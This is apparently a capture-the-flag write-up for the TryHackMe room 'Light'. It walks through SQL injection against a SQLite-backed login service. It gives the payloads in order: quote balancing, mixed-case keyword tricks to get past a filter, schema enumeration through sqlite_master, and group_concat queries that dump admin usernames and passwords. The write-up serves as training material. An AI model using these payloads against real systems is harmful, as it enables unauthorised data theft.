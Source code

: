 # Light

<br>

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838" width="200">
</p>

> *Welcome to the Light database application!*

<br>

## 🧠 Intro
Welcome to **Light**, a short and clever room focused on **SQL Injection (SQLi)** and database misconfigurations. We’ll dig into some manual SQLi and bypass filters to uncover secrets hidden in plaintext. 

*Deploy the machine and let's light this one up.* 🔦

<br>

## 🎯 Task
To pwn this room, we need to:

- Find the **username** and **password** of the **admin** user.
- Capture the **flag**.

<br>

## 🔍 Recon
The room description hints at connecting to the machine via netcat on port `1337`.

```bash
nc MACHINE_IP 1337
```

![Light_x](src/Light_x)

We're greeted by a minimal login interface. We try logging in with:

> Username: `smokey`

The server responds with the corresponding password—but doesn’t actually log us in. Strange. Seems like we’re just querying the database and getting a response.

Time to test for SQL injection. 😈

<br>

## 🧪 Exploitation (SQLi)

We start simple with the classic:

```sql
' OR 1=1 --
```

But the server blocks us:

> *"For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)"*

Okay, so comments and certain keywords are filtered. Let’s try without the comment:

```sql
' OR 1=1
```

And now we get:

> *"Error: unrecognized token: "''' LIMIT 30""*

Looks like an issue with unmatched quotes. So we try:

```sql
' OR '1=1
```

Success! We get this as response:

> *Password:

This confirm that SQLi works. Now let’s go deeper. We need to find out what DBMS we're dealing with.

We suspect it's **SQLite** (given the name *Light*), so we try this payload:

```sql
' UNION SELECT sqlite_version() '
```

...but the server complains:

> *"Ahh there is a word in there I don't like :("*  

Looks like keywords are filtered in uppercase. What if we capitalize?

```
' Union Select sqlite_version() '
```

Boom. This works—we get:

> *Password: 3.31.1*

So we’re dealing with SQLite 3. Nice.

Now, let’s enumerate the schema via the `sqlite_master` table:

```sql
' Union Select sql From sqlite_master '
```

This returns the table schema:

> `CREATE TABLE admintable (username TEXT, password TEXT)`

Perfect. Now let’s extract the data.

To list usernames:

```sql
' Union Select group_concat(username) From admintable '
```

Result:

![Light_x](src/Light_x.png)

Then for passwords:

```sql
' Union Select group_concat(password) From admintable '
```

And we get:

![Light_x](src/Light_x.png)

Mission complete. 🎯

<br>

## 🏁 Got the Flag
On the admintable table, we find the username, the password and the flag.

```
flag{go_get_it}
```

*Straight from the shadows into the light.* 💡

<br>

## 📝 Notes
This room shows how powerful SQL injection can be even in very restricted environments. Filter bypassing, capitalization tricks, and knowledge of DBMS behavior are all key tools when digging into databases.

*Keep it light—but thorough.* 😉

<br>

## 🏠 Room Info
- 🧩 [TryHackMe - Light](https://tryhackme.com/room/lightroom)
- 🏷️ Difficulty: Easy
- 🧠 Focus: SQLi (SQL Injection)

